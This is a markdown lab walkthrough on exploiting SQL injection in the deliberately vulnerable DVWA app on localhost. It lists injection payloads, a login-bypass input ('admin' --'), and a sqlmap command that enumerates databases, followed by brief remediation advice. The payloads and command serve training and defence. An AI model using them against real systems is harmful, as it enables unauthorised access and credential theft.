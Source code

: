 `DVWA-SQLi-Walkthrough.md` – SQL injection test case with payloads and output

 DVWA-SQLi-Walkthrough.md
```markdown
# 🔍 DVWA SQL Injection Walkthrough

 🔧 Environment
- **Application**: Damn Vulnerable Web Application (DVWA)
- **Security Level**: Low
- **Tool**: Burp Suite, Firefox, SQLMap (optional)

 🎯 Objective
Exploit SQL Injection in the login page and extract user credentials.

---

 🧪 Steps

 1. Navigate to the SQL Injection module in DVWA:
```
http://localhost:3000/dvwa/vulnerabilities/sqli/
```

### 2. Interact with the input field:
Input: `1' OR '1'='1`

Submit → Observe that all users are displayed — indicating **SQLi exists**.

---

 🧰 Useful Payloads
```sql
1' OR '1'='1 -- 
1' OR '1'='1' #
' OR 1=1--
admin' --
' OR '' = '
```

---

🔐 Authentication Bypass Example
Input in login:
- Username: `admin' -- `
- Password: `anything`

Login successful. This proves SQLi can bypass login authentication.

---

 🧪 Automate with SQLMap
```bash
sqlmap -u "http://localhost/dvwa/vulnerabilities/sqli/?id=1&Submit=Submit" --cookie="security=low; PHPSESSID=xyz" --dbs
```

- `--dbs`: enumerate all databases
- `--tables -D dvwa`: list all tables in DVWA database

---

 ✅ Remediation
- Use prepared statements (e.g., PDO in PHP)
- Validate and sanitize inputs
- Employ WAF and least-privilege database roles
  
